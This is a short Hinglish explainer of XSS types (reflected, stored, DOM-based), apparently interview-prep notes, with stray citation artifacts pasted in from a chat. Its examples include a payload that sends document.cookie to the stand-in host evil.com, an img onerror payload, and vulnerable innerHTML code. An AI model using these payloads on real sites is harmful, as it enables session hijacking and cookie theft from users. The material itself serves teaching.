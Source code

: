 ## Cross Site Scripting ( XSS ) Vulnerability Payload List
## 🔍 Overview :

**Cross‑Site Scripting (XSS)** attacks ek tarah ka injection attack hai, jisme attacker malicious scripts ko inject karke ek benign aur trusted website ko compromise kar leta hai. XSS tab hota hai jab attacker web application ka use karke malicious code (mostly browser-side JavaScript) dusre end user ke browser tak bhej deta hai. Ye vulnerability tab exploit hoti hai jab web app user ka input bina validation ya encoding ke output me use kar deti hai—aur ye flaw kaafi common hai. :contentReference[oaicite:0]{index=0}

Attack ka mechanism kuch is tarah ka hai:  
- Attacker XSS ke zariye khatarnaak script bhejta hai unsuspecting user ke browser me.  
- Browser is script ko trusted source (web app) se aane wale code ki tarah samajh leta hai, aur execute kar deta hai.  
- Script browser me store cookies, session tokens, ya sensitive information access kar sakta hai.  
- Ye script HTML page ka content bhi modify (rewrite) kar sakta hai. :contentReference[oaicite:1]{index=1}

# Types of Cross‑Site Scripting (XSS)

## 1. Reflected XSS (Non‑Persistent)  
- **Description:** Server user input ko turant response mein bina sanitize kiye reflect karta hai.  
- **Example:**  
               https://example.com/search?term=<script>alert('XSS')</script>
  Browser is script ko trusted source se samajh ke execute kar deta hai :contentReference[oaicite:0]{index=0}.  
- **Interview mein bolna:**  
“Reflected XSS tab hota hai jab input URL ya form se server tak jaata hai aur response me turant HTML context me reflect hota hai, jisse user click karte hi script run ho jaata hai.”

---

## 2. Stored XSS (Persistent)  
- **Description:** Attacker script database ya kisi stored field (comment/post) mein permanently save kar deta hai.  
- **Example:**  
User ne comment mein `<script>fetch('https://evil.com?c='+document.cookie)</script>` inject kiya, aur jab koi page access karta hai, script execute ho jaata hai :contentReference[oaicite:1]{index=1}.  
- **Interview mein bolna:**  
“Ye sabse khatarnaak hota hai kyunki payload stored rehta hai aur har visitor ke browser mein execute ho sakta hai—session hijack, defacement, phishing sab possible hai.”

---

## 3. DOM‑Based XSS  
- **Description:** Pure client-side hota hai. JavaScript DOM methods (e.g., `innerHTML`) user input ko unsafe tarike se content me inject kar dete hain.  
- **Example:**  
         const name = new URLSearchParams(window.location.search).get('name');
           document.getElementById('greet').innerHTML = name;

         Agar URL ho ?name=<img src=x onerror=alert('XSS')>, toh browser me alert box show hoga

- **Interview mein bolna:**  
“Yahaan server safe hai, lekin client-side JS vulnerability hai—data sanitization miss, DOM me inject.”

